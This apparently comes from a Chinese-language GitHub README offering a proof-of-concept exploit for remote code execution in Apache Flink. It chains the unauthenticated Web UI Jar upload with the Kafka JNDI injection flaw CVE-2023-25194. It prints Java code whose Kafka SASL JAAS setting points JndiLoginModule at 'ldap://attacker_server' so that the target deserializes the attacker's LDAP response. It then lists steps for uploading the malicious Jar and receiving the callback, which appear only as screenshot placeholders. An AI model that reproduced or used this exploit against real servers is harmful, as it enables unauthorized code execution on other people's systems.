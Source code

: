 # Flink-Kafka-Vul
**Apache Flink远程代码执行漏洞。**

Apache Flink Web UI 默认没有用户权限认证，攻击者可以直接上传恶意Jar包，通过指定Kafka数据源连接属性，利用Apache Kafka JNDI注入(CVE-2023-25194)漏洞[1]攻击Flink，最终实现远程代码执行。

[1] https://kafka.apache.org/cve-list#CVE-2023-25194

# 利用

## 编写不安全的Flink程序

指定Kafka连接参数，其中`sasl.jaas.config`属性设置为`"com.sun.security.auth.module.JndiLoginModule required user.provider.url="ldap://attacker_server" useFirstPass="true" serviceName="x" debug="true" group.provider.url="xxx";`，服务器将连接到攻击者的 LDAP 服务器并反序列化 LDAP 响应。
```
	// 设置执行环境
	final StreamExecutionEnvironment env = StreamExecutionEnvironment.getExecutionEnvironment();
	// 配置 Kafka 连接属性
	Properties properties = new Properties();
	properties.setProperty("bootstrap.servers", "192.168.25.147:9092");
	properties.setProperty("group.id", "flink-kafka-demo");
	properties.setProperty("security.protocol", "SASL_PLAINTEXT");
	properties.setProperty("sasl.mechanism", "PLAIN");
	properties.setProperty("sasl.jaas.config", "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");


	FlinkKafkaConsumer<String> consumer = new FlinkKafkaConsumer("quickstart-events", new SimpleStringSchema(), properties);

	// 从 Kafka 中读取数据
	env.addSource(consumer).print();

	// 执行程序
	env.execute("Flink Kafka Demo");
```

## 触发漏洞

自行将Flink程序打包为Jar：

![1.jpg]

在Apache Flink Dashboard上传恶意Jar，并提交任务：

![2.jpg]

攻击者服务器：

![3.jpg]

DNSlog服务器：

![4.jpg]




